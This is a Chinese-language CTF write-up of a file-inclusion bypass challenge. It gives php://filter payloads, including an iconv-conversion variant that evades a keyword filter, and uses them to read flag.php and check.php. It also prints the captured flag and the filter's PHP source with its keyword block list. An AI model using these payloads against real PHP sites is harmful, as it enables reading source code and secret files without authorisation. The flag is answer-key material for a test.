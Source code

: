 ```yaml
---
title: 文件包含绕过
date: 2024-04-07 14:32:16
updated: 2024-11-15 21:49:39
categories:
  - 网络安全
  - CTF竞赛
  - 蓝桥杯
  - Web
tags:
  - 网络安全
  - CTF
  - Web
permalink: /posts/文件包含绕过/
---
```

## 题目描述
try your best to find the flag

## 解题
打开靶场得到代码：
![](文件包含绕过/image-20240308211923615.png)

文件包含
尝试使用php://filter协议进行文件读取；
payload：`filename=php://filter/read=convert.base64-encode/resource=index.php`
![](文件包含绕过/image-20240308212323980.png)

发现被check.php给拦截了。去掉中间的读取方式发现没有触发拦截

根据题意，尝试使用不同的方式进行读取，即更换读取方式。
最终得到payload：`?filename=php://filter/convert.iconv.utf-8*.utf-16*/resource=flag.php`
![](文件包含绕过/image-20240308212604211.png)

获取到`flag{c413b6ca-e3b1-4c18-977b-2911166377f6}`


check.php源代码：
`?filename=php://filter/convert.iconv.utf-8*.utf-16*/resource=check.php`
```php
<?php 
if($_GET["filename"])
{ $preg_match_username = 'return preg_match("/base|encode|print|zlib|quoted|write|rot13|read|string/i", $_GET["filename"]);'; 
 if (eval($preg_match_username)) { die("do not hack!"); } }
```

![](文件包含绕过/image-20240308212742127.png)

